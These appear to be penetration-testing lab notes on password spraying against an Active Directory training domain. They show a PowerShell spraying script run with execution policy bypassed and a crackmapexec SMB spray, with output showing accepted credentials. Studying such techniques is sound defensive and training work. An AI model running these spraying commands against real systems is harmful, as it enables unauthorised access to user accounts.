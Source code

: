 
# We could use the technique above to create a Powershell script that enumerates all users and platforms authentications according to the Lockout Threshold and Lockout observation windows
# Password spraying tactic is already implemented in the PowerShell script C:\Tools\Spray-Passwords.ps1 
PS C:\Tools> powershell -ep bypass
PS C:\Tools> .\Spray-Passwords.ps1 -Pass Nexus123! -Admin
...
Users guessed are:
 'pete' with password: 'Nexus123!'
 'jen' with password: 'Nexus123!'
...

# ! Second Methods ! 

# The second kind of password spraying attack against AD users leverages SMB. This is one of the traditional approaches of password attacks in AD and comes with some drawbacks
# We can use crackmapexec4 on Kali to perform this kind of password spraying. We'll select smb as protocol and enter the IP address of any domain joined system such as CLIENT75 (192.168.50.75). Then, we can provide a list or single users and passwords to -u and -p. In addition, we will enter the domain name for -d and provide the option --continue-on-success to avoid stopping at the first valid credential. For the purposes of this example, we'll create a text file named users.txt containing a subset of the domain usernames dave, jen, and pete to spray the password Nexus123! against.

nano users.txt
dave
jen
pete

sudo crackmapexec smb 192.168.163.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
...
SMB         192.168.163.75  445    CLIENT75         [*] Windows 11 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.163.75  445    CLIENT75         [-] corp.com\dave:Nexus123! STATUS_LOGON_FAILURE 
SMB         192.168.163.75  445    CLIENT75         [+] corp.com\jen:Nexus123! 
SMB         192.168.163.75  445    CLIENT75         [+] corp.com\pete:Nexus123! 
...
